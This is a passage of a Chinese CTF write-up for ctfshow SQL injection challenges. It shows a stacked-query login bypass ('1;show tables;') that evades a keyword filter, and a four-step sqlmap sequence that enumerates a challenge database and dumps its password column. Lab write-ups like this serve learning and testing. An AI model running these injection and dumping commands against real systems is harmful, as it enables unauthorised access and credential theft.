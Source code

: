 ```php
# 查询语句
$sql = "select pass from ctfshow_user where username = {$username};";
# 过滤语句
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username))
```

在上面语句中，发现没有过滤空格分号，且在查询语句里点明了表名，可以利用表名作为密码

用户名登入`1;show tables;`
```sql
1;show tables;
```

而密码验证是$row[0]==$password，这样查询的返回结果就是当前数据库里的表名ctfshow_user

密码登入ctfshow_user即可登录

## web 201

开始使用sqlmap了，要求

```
 使用--user-agent 指定agent
 --user-agent=sqlmap
 使用--referer 绕过referer检查
 --referer=ctf.show
```

在这里，将一下用到的参数

:::tip
-dump  导出数据
-refer 伪造来源

-D ：指定数据库名
-T  指定表名
-C  指定列名
--dbs  查询所有数据库
--tables  查询指定数据库的所有表
--columns  查询指定表的所有列
--dump  查询指定列的所有数据
:::

```bash
# 爆数据库   ctfshow_web
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show --dbs
# 指定数据库来爆表名     ctfshow_user
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```
